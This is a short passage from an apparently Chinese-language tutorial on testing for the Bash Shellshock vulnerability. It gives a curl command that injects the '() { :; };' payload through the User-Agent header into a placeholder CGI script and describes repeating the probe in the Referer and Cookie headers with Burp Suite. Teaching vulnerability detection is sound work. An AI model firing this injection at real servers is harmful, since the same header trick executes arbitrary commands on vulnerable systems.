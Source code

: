 ```
curl -H 'User-Agent:() { :; }; echo -e "\r\nVul\r\n"'  http://XXX:8080/cgi-bin/XXX.cgi

```

测试截图如下：

![enter image description here](img/img18_u2_png.jpg)

在 http 协议中构造`Referer`、`Cookie`、`User-Agent`字段命令，使用 Burpsuit，发送到存在 Bash 漏洞的服务器，会返回 3 个 Vul 字符，说明 3 个字段传递的参数都被服务器后端脚本解析处理，测试结果如下：

![enter image description here](img/img19_u10_png.jpg)
